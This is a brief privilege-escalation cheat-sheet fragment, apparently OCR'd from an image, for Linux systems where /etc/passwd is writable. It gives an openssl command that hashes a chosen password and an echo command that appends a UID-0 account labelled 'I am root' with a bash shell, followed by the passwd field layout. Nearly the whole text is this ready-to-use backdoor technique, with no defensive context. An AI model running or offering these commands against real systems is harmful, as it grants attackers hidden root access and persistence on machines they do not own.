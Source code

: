 - if write acces to `/etc/passwd`
  
`openssl passwd -1 -salt [salt] [password]` - create hash of password (it's `1`, not `l`)

`echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:I am root:/root:/bin/bash' >> /etc/passwd`
username:hash_of_passwd OR x (if 'x' hash stored in `/etc/shadow`):UID:GID:comment_field:home_dir (if empty -> `/`):command (typically shell)
